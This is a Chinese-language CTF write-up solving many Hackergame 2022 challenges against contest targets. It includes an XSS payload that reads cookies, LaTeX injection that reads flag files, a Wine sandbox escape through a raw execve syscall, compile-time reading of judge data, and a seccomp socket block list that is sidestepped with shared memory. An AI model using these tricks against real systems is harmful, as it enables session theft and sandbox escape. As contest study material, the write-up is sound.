




# Hackergame 2022 Writeups

## Preface

今年又来了，由于这次很多题目 fuzz 部分非常多，本拍脑袋选手蒙出来不少可以做的东西，分数+排名都比去年好了很多，很开心。

## 签到

我点进去的时候网比较烂，只看到一个提交按钮，点了下发现 url 有个 `result=????` 的 query，试了试 2022 就过了。

后面我又点进去才知道是 wasm 搞了个 MNIST，还挺牛。

## 猫咪问答喵

比去年难多了。

1. 搜索。
2. 听力考试，凭借我强大的脑补能力猜出来了是 Kdenlive。
3. 直接搜 "firefox windows 2000"，有用户说 28 也能跑，试了下不对，官方支持是 12，改成 12 就对了。
4. 搜索 "kernel argc non zero"，能找到 LWN.net 的[讨论](https://lwn.net/Articles/882799/)，从下面找到核心 patch 的修改点然后直接去 Github 找到 kernel 的 `fs/exec.c` [文件](https://github.com/torvalds/linux/blob/master/fs/exec.c#L1900) 对应位置，`git blame` 一下拿到 commit hash。
5. 找了很久，最后在 Github [代码搜索](cs.github.com) 搜 hash，搜到个 ip，点进去一看域名确实是。
6. 搜索“网络通”，从 FAQ 里面看到这个通知的名字是 《中国科学技术大学校园网络运行及通信费用分担办法》，搜索这个关键词，从中科大网络信息中心的[文件扫描页面](https://ustcnet.ustc.edu.cn/2001/0409/c11109a210875/page.htm)发现这种文件都是网字头，顺着找一下就能找到正式施行的文件，拿到时间。

## 家目录里的秘密

### VS Code 里的 flag

```shell
grep -ir 'flag' ./*
```

### Rclone 里的 flag

`/home/user/.config/rclone/rclone.conf` 里面有个 pass，不知道是啥，搞个 rclone 源码审计了一下，发现有个 `obscure` 命令，然后下面刚好有个 `Reveal` 函数，直接 copy 出来跑一遍就出 flag 了。

### HeiLang

`%s/|/,/g`，然后把前面的实现改成：

```python
class A:
    def __init__(self):
        self.a = [0] * 10000

    def __setitem__(self, idx, val):
        if isinstance(idx, int):
            self.a[idx] = val
        elif isinstance(idx, tuple):
            for item in idx:
                self.a[item] = val


# a = [0] * 10000
a = A()

# ...

if __name__ == "__main__":
    get_flag(a.a)
```

直接跑就出结果了。

## Xcaptcha

打开点进去，页面一闪而过，用 requests + BeautifulSoup 交互式 parse 一下页面，然后把答案提交了就行。

```python
import requests
from bs4 import BeautifulSoup

URL = "http://202.38.93.111:10047"
TOKEN = """<Your Token>"""

if __name__ == "__main__":
    s = requests.session()
    r = s.get(URL, params={"token": TOKEN})
    r = s.get(f"{URL}/xcaptcha")
    soup = BeautifulSoup(r.text, features="html.parser")
    answers = map(lambda x: eval(x.string.rstrip(" 的结果是？")),
                  soup.findAll("label"))
    data = {}
    for idx, answer in enumerate(answers):
        data[f"captcha{idx+1}"] = answer

    r = s.post(f"{URL}/xcaptcha", data=data)
    print(r.text)
```

## 旅行照片 2.0

### 图片分析

下载下来直接右键 -> 显示简介，答案都在上面。

### 社工入门

- 酒店
    1. 放大图片能看到 _WELCOME TO ZOZOMARINE STADIUM_，搜了下在日本千叶，虽然根据方位 Google Map 显示了三个可能的酒店，但是这一街区的邮编都是一个。
    2. EXIF 信息看到这个设备是 _Xiaomi sm6115 (juice)_，国内版本型号是红米 Note 9 4G，随便找个 spec 就能找到分辨率了，长宽别写反了。

- 航班
    因为担心改航线，搜了好几个能看历史航班信息的，找了个便宜的开了个 7 天试用，比划半天找到了。~~（事后想了想，反正是免费试用，找便宜的意义在哪儿？）~~

## 猜数字

一开始是猜可能要多线程撞 `ConcurrentHashMap` 或者是 XML  Encoding 上搞些花活，最后发现：

```java
var guess = Double.parseDouble(event.asCharacters().getData());
var isLess = guess < this.number - 1e-6 / 2;
var isMore = guess > this.number + 1e-6 / 2;
var isPassed = !isLess && !isMore;
```

根据 IEEE 754 标准，`NaN` 上的一切比较都是 `false`，这里的答案解析方式是接受 `NaN` 的，而 `NaN` 后 `isLess` 和 `isMore` 就恒为 `false`，然后就绕过去了。

去网页上试了试，发现不接受非数字输入，所以最后 `curl` 两行流了。

```shell
export TOKEN='<YOUR TOKEN>'
curl 'http://202.38.93.111:18000/state' -H "Authorization: Bearer ${TOKEN}" --data-raw '<state><guess>NaN</guess></state>'
curl -H "Authorization: Bearer ${TOKEN}" 'http://202.38.93.111:18000/state'
```

## LaTeX 机器人

### 纯文本

```latex
\texttt{\input{/flag1}}
```

### 特殊字符混入

根据文档，`\input` 的操作跟 C 的 `#include` 很像，直接把内容从文件 copy 过来然后当文档的一部分编译。搜了很久怎么在 document 里面插入新的 document 然后引入 `\verbatiminput`，然后发现一个命令 `\catcode`，可以修改一个字符的 category code，那直接把 `#` 和 `_` 都改成字符的类型就可以了。

```latex
\catcode`\_=11 \catcode`\#=11 \texttt{\input{/flag2}}
```

## Flag 的痕迹

打开 DokuWiki 官网，进任意页面的 revisions 随便玩一下就会发现，带参数 `do=diff` 就可以打开两个页面的 diff，回来对主页 diff 一下就做完了。

## 安全的在线测评

### 无法 AC 的题目

看了下判题脚本，`static.out` 文件并没有特殊的权限设置，猜测可以直接读，随便写个读文件的 C 代码就过了。

### 动态数据

重新审计判题脚本，发现实际的数据生成是脚本里面做的，然后 `gcc` 也是脚本起的，所以 `gcc` 有读数据的权限。想办法从编译下手。

首先第一个想到的是 `#include`，但是 `#include` 从工作原理上来说会对文件做操作，而 `dynamic.out` 都是两行的大数字，不是标准 C 文件，调了半个小时放弃。

然后胡乱搜索，最终发现了这篇[文章](http://elm-chan.org/junk/32bit/binclude.html)，里面提到可以用 `.incbin` 这个 inline asm 编译期包含文件。

然后这题就做完了？没有。由于我的汇编水平相比去年长进十分有限（$|\Delta| < \epsilon$），我照着这篇文章和 Stackoverflow 的好多回答抄的代码都 crash 了。然后我搜到了[这个项目](https://github.com/graphitemaster/incbin)，发现是 500 行的 header-only，直接 copy 交了，然后 WA 了。重新读了遍代码，发现是没判断输入，一把子全输出了,~~直接把打 ACM 的经验全部扔了~~，改改然后 fuzz 一下就过了。

```C
// 这里应该有上面仓库提到的 .h

#include <stdio.h>

INCTXT(stt, "./data/static.out");
INCTXT(dy0, "./data/dynamic0.out");
INCTXT(dy1, "./data/dynamic1.out");
INCTXT(dy2, "./data/dynamic2.out");
INCTXT(dy3, "./data/dynamic3.out");
INCTXT(dy4, "./data/dynamic4.out");

INCTXT(sttIn, "./data/static.in");
INCTXT(dy0In, "./data/dynamic0.in");
INCTXT(dy1In, "./data/dynamic1.in");
INCTXT(dy2In, "./data/dynamic2.in");
INCTXT(dy3In, "./data/dynamic3.in");
INCTXT(dy4In, "./data/dynamic4.in");

int main() {
  char input[2000];
  scanf("%s", input);
  int l = strlen(input);
  input[l] = '\n';
  input[l + 1] = '\0';
  if (strcmp(input, gsttInData) == 0) {
    printf("%s", gsttData);
    return 0;
  }
  if (strcmp(input, gdy0InData) == 0) {
    printf("%s", gdy0Data);
    return 0;
  }
  if (strcmp(input, gdy1InData) == 0) {
    printf("%s", gdy1Data);
    return 0;
  }
  if (strcmp(input, gdy2InData) == 0) {
    printf("%s", gdy2Data);
    return 0;
  }
  if (strcmp(input, gdy3InData) == 0) {
    printf("%s", gdy3Data);
    return 0;
  }
  if (strcmp(input, gdy4InData) == 0) {
    printf("%s", gdy4Data);
    return 0;
  }
}
```

## 线路板

下载 Kicad，所有文件导入进去，当 Photoshop 玩一下就能看到了。

## Flag 自动机

今年学习了一手渗透测试，然后我终于调好了能下断点的 IDA 了，但是一次都没用过。

下载了 `flag_machine.exe` 先玩了一下，大概有个思路打开 IDA 看了下，工作方式比较简单，进来直接搞了个窗口程序就跑了。审计一下窗口初始化的伪代码：



核心的消息收发函数应该是 `WndClass.lpfnWndProc`，直接审计 `sub_401510`。


进来看了下这里有个 Congratulations，看了下下面直接把 flag 写到文件了，那么 `sub_401F8A` 应该就可以直接把 flag 吐出来。进去看下：



发现 flag 会先被放到 `Destination` 里，然后 return 回去，那跑下 `401F8A` 应该就可以了。

找到地址，结果刚启动 debugger 就 crash 了。找了各种教程，发现用 windbg 也 crash，一通搜索之后发现好像是 anti-debug 了，跟着教程搞了个 Ollydbg，然后又找到个插件 ScyllaHide，配完了进去跑，啥问题没有。直接把 EIP 改成 `0x401f8a`，然后执行一下，就能在内存上看到 flag 了。



## 微积分计算小练习

看了下执行脚本，应该是需要通过 XSS 给 cookie 弄出来。试了下容器里没有网，掉头看第一个页面。

第一个页面里随便玩了几次，发现输入相同的 input 吐出来的结果是一样的，把 `result=` 后面的 value 拖进 CyberChef 然后 URL decode 了一下，自动检测出来是 base64 过后的 `score:username` 数据。



审计了一下前端代码，发现这两个地方直接做的 HTML 拼接，那都有注入点。fuzz 了一下得到一个可行的 payload：

```plain
<a href="x" onfocus="document.querySelector('#greeting').textContent=document.cookie;" autofocus="">xss</a>:123
```

转成 base64，encoding 完了拼一下链接，交了就过了。

## 杯窗鹅影

### flag1

拉了个镜像，随便写了个读文件的代码，编译完交了就过了……

```c
#include <stdio.h>

int main() {
  FILE *f = fopen("/flag1", "r");

  int c = fgetc(f);
  while (c != EOF) {
    putchar(c);
    c = fgetc(f);
  }
  fclose(f);
}
```

### flag2

Wine 本身并不是搞了个 sandbox 或者 vm 之类的东西，而是相当于当你调用 Win32api 的时候，link 到的库是 Wine 的库，Wine 提供了这些函数在 Linux 下的等价（或者说勉强能用）的实现，然后直接跑，而至于原生 Linux 函数就直接 passthrough 了。

虽然这些我都知道，但是做的非常磕绊。因为第一问给了我一个错觉，以为直接 syscall 就行了，尝试直接 `execve`，发现跑不起来，然后尝试了一众 Windows API，比如 `CreateProcess`, `ShellExecute` 等等，都找不到资源，然后根据第一问的 flag 尝试去遍历文件夹，还把运行环境给摸透了，但是最后就是跑不起来，一度让我怀疑自己是不是方向走远了。

最后翻了翻去年自己的题解找灵感，发现好像还可以试试汇编直接 call syscall，又把 x86 syscall 表翻了出来，照着抄了下就过了……

```c
#include <stdio.h>

int main() {
  asm("mov $0x0b, %eax; mov $.LC0, %ebx; mov $0, %ecx; mov $0, %edx; int $0x80; "
      ".LC0: .string \"/readflag\"");
}
```

## 蒙特卡罗轮盘赌

拉了镜像跑了下，发现后面 `clock()` 的数值大概在 1000 上下，写了个模拟从 0~2000 各模拟了一遍，然后跟题目交互了一下，一次过。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

double rand01() { return (double)rand() / RAND_MAX; }

void monte_carlo(unsigned int seed, int count) {
  srand(seed);
  printf("%u: ", seed);

  for (int i = 0; i < count; i++) {
    int M = 0;
    int N = 400000;
    for (int j = 0; j < N; j++) {
      double x = rand01();
      double y = rand01();
      if (x * x + y * y < 1)
        M++;
    }
    double pi = (double)M / N * 4;
    printf("%1.5f%c", pi, ",\n"[i == count - 1]);
  }
}

int main(int argc, char **argv) {
  if (argc < 2) {
    unsigned tt = time(0);
    for (int i = 0; i <= 2000; i++) {
      monte_carlo(tt + i, 1);
    }
  } else if (argc >= 3) {
    int timestamp = (int)strtol(argv[1], NULL, 10);
    int count = (int)strtol(argv[2], NULL, 10);
    monte_carlo(timestamp, count);
  }
}
```

## 惜字如金

### HS384

给定了惜字如金化的 secret 和 sha384 后的结果，字典很小可以直接枚举然后爆，写个脚本几秒就算出来了。

本届最谜语人题目，我一开始直接爆了所有可见 ascii 字符，看榜上这么多人过得飞快寻思也不是都有超算啊，然后看了下补充说明，猜测是这样，然后 fuzz 了两个小时过了。

```python
from hashlib import sha384
from hmac import digest
from base64 import urlsafe_b64encode
from os import getcwd, path


def traverse(candidate, count, fixed=False):
    if len(candidate) == 1:
        if fixed:
            yield candidate * count
            if count > 1:
                yield candidate * (count - 1) + 'e'
            return
        for i in range(1, count + 1):
            yield candidate * i
            if i > 1:
                yield candidate * (i - 1) + 'e'
    else:
        sz = count - len(candidate) + 1
        can, nxt = candidate[0], candidate[1:]
        for i in range(1, sz + 1):
            lhs = can * i
            for rhs in traverse(nxt, count - i, fixed):
                yield lhs + rhs


def xzrj(s):
    return '.'.join(map(xzrj_part, s.split('.')))


def xzrj_part(s):
    ret = [s[0]]
    for i in range(1, len(s)):
        if s[i] in 'aeiou.0123456789':
            ret.append(s[i])
        elif s[i] != ret[-1]:
            ret.append(s[i])

    if len(s) > 1:
        if ret[-1] == 'e' and ret[-2] not in 'aeiou.0123456789':
            ret = ret[:-1]
    return ''.join(ret)


# ustc.edu.cn
def get_key():
    for first in traverse('stc', 31):
        for second in traverse('d', 32 - len(first)):
            for third in traverse('cn',
                                  34 - len(first) - len(second),
                                  fixed=True):
                key = 'u' + '.'.join([first, f'e{second}u', third])
                if xzrj(key) == 'ustc.edu.cn' and '62074271866' in sha384(
                        key.encode()).hexdigest():
                    return key


if __name__ == "__main__":
    key = get_key()
    print(f'key={key}, sha348(key)={sha384(key.encode()).hexdigest()}')

    for _ in range(3):
        file = input('input a path: ')
        with open(path.join(getcwd(), file), 'rb') as f:
            print('digest: ',
                  urlsafe_b64encode(digest(key.encode(), f.read(), sha384)))
```

## 置换魔群

### 置换群上的 DSA

给定对称群 $S_n$，随机选一个元素 $s\in S_n$，然后给定 $n$ 和 $s^e, e=65537$，求 $s$。

首先是对称群的一些非常好用的性质：

- 考虑对称群上元素的两行置换写法，其实两行交换一下就是逆元，开销非常小。
- 元素的阶 $\sigma(s)$，也就是 $(\mathbb{Z}/{n}\mathbb{Z})^\times$ 上的 $\phi(n)$，实际上将群写成轮换形式，就是对轮换长度求一下最小公倍数，同时还有 $s^{\sigma(s)}=\text{id}$。
- 群上的乘法其实就是对元素做交换，虽然有左右乘的关系，但是本题都是 $s$ 的倍数，所以可以直接搞。

然后其实是解一个很简单的问题。由于 $e$ 一定跟元素的阶 $\sigma(s^e)$ 互质，而这个群的阶又至少能整除 $s$ 的阶，我们可以尝试构造式子：

$$
(s^e)^p\times s^{q\sigma(s^e)}=s, \text{where}\ p, q\in\mathbb{Z}
$$

注意到 $s^{q\sigma(s)}=s^{q\sigma(s^e)}=\text{id}$，提一下 $s$ 的幂次，我们有

$$
pe+q\sigma(s^e)=1
$$

然后就是一个经典问题了，直接 exgcd。注意到后面 $(s^e)^{q\sigma(s^e)}$ 到最后其实是 $\text{id}$，可以直接无视掉，直接求 $(s^e)^p$ 就解决问题了。如果 $p$ 是负数那就对逆元求幂。

```python
from pwn import remote
import json
from sympy import gcdex
from sage.all import *

def task1(remote: remote):
    print("[+] Start task 1.")
    remote.sendlineafter(
        b'Hi, welcome to permutation world. Choose one challenge to solve.\n> 1. RSA in permutation group.\n> 2. DHKE in permutation group.\n> 3. DHKE++ in permutation group.\n> other: exit()\n\n> your choice: ',
        b'1',
        timeout=1)
    remote.recvuntil(
        b'Since the order of the permutation group can be computed easily, the RSA cryptography is not safe in this gruop.\nAnyway, I decide to give this flag to you for free. Just get it!\n',
        timeout=1)
    for i in range(15):
        line = remote.recvline().decode()
        n = int(line.split(',')[0][24:])
        print(f"[+] Round {i+1}: n = {n}")
        remote.recvuntil(b'[+] my encrypted secret is here: \n')
        secret = json.loads(remote.recvline().decode().rstrip())
        print(f"[+] Round {i+1}: secret[:10] = {secret[:10]}")

        ## CORE
        Sn = SymmetricGroup(n)
        secret = Sn(secret)
        a = gcdex(65537, secret.order())[0]
        ans = bp(Sn.identity(), secret if a > 0 else secret.inverse(), abs(a))

        print(f"[+] Round {i+1}: ans[:10] = {ans.domain()[:10]}")
        remote.sendlineafter(
            b'[+] Prove that you own the secret (a list like [1,2,3]): \n> your answer: ',
            json.dumps(ans.domain()).encode(),
            timeout=1)
        line = remote.recvline()
        if line != b'Good job\n':
            print(f"[!] Round {i+1}: Failed! line = {line}")
            return

    print(f'[+] All done!')
    print(f'[+] Remain bytes: {remote.recv()}')
```

### 置换群上的 DH

其实我感觉要比上一问简单，由于置换群的阶是轮换的最小公倍数，这个数一定是光滑的，那么跑什么直接求离散对数的算法都会很快。拿 sage 随便构造一下，直接跑 `discrete_log` 就出来了。

```python
from pwn import remote
import json
from sympy import gcdex
from sage.all import *


def task2(remote: remote):
    print("[+] Start task 2.")
    remote.sendlineafter(
        b'Hi, welcome to permutation world. Choose one challenge to solve.\n> 1. RSA in permutation group.\n> 2. DHKE in permutation group.\n> 3. DHKE++ in permutation group.\n> other: exit()\n\n> your choice: ',
        b'2',
        timeout=1)
    remote.recvuntil(
        b"Since permutation group's order is super large, I believe the discrete logarithm problem is hard to solve in this group.\nTherefore I plan to implement the DH protocol in this magic group.\nNow, go and crack my private key!\n",
        timeout=1)
    for i in range(15):
        line = remote.recvline().decode().split(',', 1)
        n = int(line[0][23:])
        g = json.loads(line[1][5:].rstrip())
        print(f"[+] Round {i+1}: n = {n}")
        print(f"[+] Round {i+1}: g[:10] = {g[:10]}")

        y = json.loads(remote.recvline().decode()[20:].rstrip())
        print(f"[+] Round {i+1}: y[:10] = {y[:10]}")

        Sn = SymmetricGroup(n)
        g, y = Sn(g), Sn(y)
        ans = discrete_log(y, g)

        print(f"[+] Round {i+1}: ans = {ans}")

        remote.sendlineafter(
            b'[+] Prove that you own the secret: \n> your answer: ',
            str(ans).encode(),
            timeout=1)

        line = remote.recvline()
        if line != b'Good job\n':
            print(f"[!] Round {i+1}: Failed! line = {line}")
            return

    print(f'[+] All done!')
    print(f'[+] Remain bytes: {remote.recv()}')
```

## 光与影

虽然我不懂 WebGL，但是本科图形学课上还是学了一点渲染，用 Chrome 的本地文件替换随便玩了下，发现把 302 行的 `float t5 = t5SDF(p - vec3(36.0, 10.0, 15.0), vec3(30.0, 5.0, 5.0), 2.0);` fuzz 一下那块噪音就会跑，随便搞搞就出来了。

## 链上记忆大师

### 记忆练习

20 分钟做完，18 分钟看文档。

```sol
pragma solidity =0.8.17;

contract Storage {
    uint256 val;

    function memorize(uint256 n) external {
        val = n;
    }

    function recall() external view returns (uint256) {
        return val;
    }
}
```

## 片上系统

### 引导扇区

下一个 PulseView，用 SPI Decoder 连对线，注意到最密密麻麻的应该是 Clock，解出来第一个 block 数据拷出来就有 flag 了。

## 看不见的彼方

审计代码：

```c
add_rule(&ctx, SCMP_SYS(socket));
add_rule(&ctx, SCMP_SYS(accept));
add_rule(&ctx, SCMP_SYS(bind));
add_rule(&ctx, SCMP_SYS(connect));
add_rule(&ctx, SCMP_SYS(listen));
add_rule(&ctx, SCMP_SYS(recv));
add_rule(&ctx, SCMP_SYS(recvfrom));
add_rule(&ctx, SCMP_SYS(recvmsg));
add_rule(&ctx, SCMP_SYS(send));
add_rule(&ctx, SCMP_SYS(sendmsg));
add_rule(&ctx, SCMP_SYS(sendto));
add_rule(&ctx, SCMP_SYS(setsockopt));
add_rule(&ctx, SCMP_SYS(shutdown));
add_rule(&ctx, SCMP_SYS(socketcall));
add_rule(&ctx, SCMP_SYS(socketpair));
add_rule(&ctx, SCMP_SYS(getsockname));
add_rule(&ctx, SCMP_SYS(getpeername));
add_rule(&ctx, SCMP_SYS(getsockopt));
add_rule(&ctx, SCMP_SYS(accept4));
add_rule(&ctx, SCMP_SYS(recvmmsg));
add_rule(&ctx, SCMP_SYS(sendmmsg));
add_rule(&ctx, SCMP_SYS(ptrace));
```

把基于 socket 做 ipc 的 api 都 ban 了，但是除了 socket Linux 还有~~十万种甚至九万种~~很多种 ipc 方法，写了个基于 shm 的解决了。

Alice:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <sys/types.h>

#define KEY_ID 1919810

int main() {
  int shm_id = shmget(KEY_ID, 128, IPC_CREAT | 0666);
  FILE* reader = fopen("/secret", "r");
  char flag[2000];
  fgets(flag, 2000, reader);
  fclose(reader);

  void* shm = shmat(shm_id, NULL, 0);
  memcpy(shm, flag, strlen(flag) + 1);
  shmdt(shm);

  return 0;
}
```

Bob:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <sys/types.h>
#include <unistd.h>

#define KEY_ID 1919810

int main() {
  // sleep 5 seconds to wait read end
  sleep(5);

  for (int i = 0; i < 1000; i++) {
    int shm_id = shmget(KEY_ID, 128, IPC_CREAT | 0666);
    if (shm_id == -1) {
      fprintf(stderr, "get shm_id failed.\n");
      continue;
    }

    void* shm = shmat(shm_id, NULL, 0);
    if (shm == (void*)-1) {
      fprintf(stderr, "get shm failed.\n");
      continue;
    }

    char flag[2000];
    memcpy(flag, shm, 64);
    flag[64] = '\0';
    printf("%s\n", flag);
    return 0;
  }
}
```

## 量子藏宝图

- 第一幕：看懂 BB84：<https://jia.je/others/2020/05/01/bb84-explained/>。
- 第二幕：看懂题目给的提示和 <https://qiskit.org/textbook/ch-algorithms/bernstein-vazirani.html>，然后抄图。

## 企鹅拼盘

### 这么简单我闭眼都可以

随便 fuzz 一下出答案。

### 大力当然出奇迹啦~

拼盘游戏每一次移动都可以看作一次 $S_{16}$ 群上的一个置换，而第二轮的移动 bit 非常少（$2^{16}$），预处理一下移动然后直接枚举移动做一下群乘法就行。

置换群实现我从上面置换魔群抄的。

```python
from functools import reduce
from permutation_group import permutation_group, permutation_element
from json import loads


class Board:

    def __init__(self):
        self.b = [[i * 4 + j + 1 for j in range(4)] for i in range(4)]

    def _blkpos(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] == 16:
                    return (i, j)

    def reset(self):
        for i in range(4):
            for j in range(4):
                self.b[i][j] = i * 4 + j + 1

    def move(self, moves):
        for m in moves:
            i, j = self._blkpos()
            if m == 'L':
                self.b[i][j] = self.b[i][j - 1]
                self.b[i][j - 1] = 16
            elif m == 'R':
                self.b[i][j] = self.b[i][j + 1]
                self.b[i][j + 1] = 16
            elif m == 'U':
                self.b[i][j] = self.b[i - 1][j]
                self.b[i - 1][j] = 16
            else:
                self.b[i][j] = self.b[i + 1][j]
                self.b[i + 1][j] = 16

    def __bool__(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] != i * 4 + j + 1:
                    return True
        return False


def simulate(step):
    b = Board()
    b.move(step)

    return permutation_element(16, reduce(lambda acc, x: acc + x, b.b, []))


def padding_bin(num, sz):
    s = bin(num)[2:]
    return '0' * (sz - len(s)) + s


if __name__ == "__main__":
    S16 = permutation_group(16)
    with open("./chal/b16_obf.json", "r") as f:
        for line in f:
            b16 = loads(line)
            break

    final_moves = []
    for idx, moves1, moves2 in b16:
        final_moves.append([idx, simulate(moves1), simulate(moves2)])

    for i in range(2**16):
        b = S16.identity()
        bits = padding_bin(i, 16)
        for bit, move1, move2 in final_moves:
            b = b * (move1 if bits[bit] == '1' else move2)
        if b != S16.identity():
            print(i, bits, b)
            break
```

## 火眼金睛的小 E

### 有手就行

IDA + BinDiff。但是成功率太低了，做了大概七八次才过。

~~建议本题改名好运来。~~
